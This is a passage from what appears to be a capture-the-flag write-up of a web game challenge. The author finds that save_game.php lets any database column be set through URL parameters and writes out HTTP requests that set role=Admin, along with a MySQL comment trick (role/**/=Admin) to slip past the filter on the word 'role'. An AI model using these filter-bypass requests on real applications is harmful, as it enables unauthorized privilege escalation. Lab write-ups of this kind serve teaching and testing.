 The two parameters passed through the url are not being filtered for, and in fact we can change any column in the table we want. There is one problem though, which is role is specifically being filtered out, and that role column is what defines our access to the administration page. 

<h1>User as www-data</h1>

I did come across a line which initiates user accounts so I can see every column in the database:

```
$stmt = $pdo->prepare("INSERT INTO players(username, nickname, password, role, clicks, level) VALUES (:player,:player,:password,'User',0,0)");
```

I'll throw a test payload to get the malicious activity message to verify this code in the backup zip is actually what's running here.

```
GET /save_game.php?clicks=0&level=0&role=Admin HTTP/1.1
```

![malicious activity detected](/img/clicker/clicker_malicious_activity.png)

In my digging of how to bypass this I came across the ways to make comments in mysql, which consists of the following.

|Type|Description|
|---|---|
|`#`|Hash comment|
|`/* MYSQL Comment */`|C-style comment|
|`/*! MYSQL Special SQL */`|Special SQL|
|`/*!32302 10*/`|Comment for MYSQL version 3.23.02|
|`-- -`|SQL comment|
|`;%00`|Nullbyte|
|`|Backtick|

That inline C-style comment jumps out at me, and perhaps I can append it to the role parameter to bypass the string check for 'role'. 

```
GET /save_game.php?clicks=0&level=0&role/**/=Admin
```
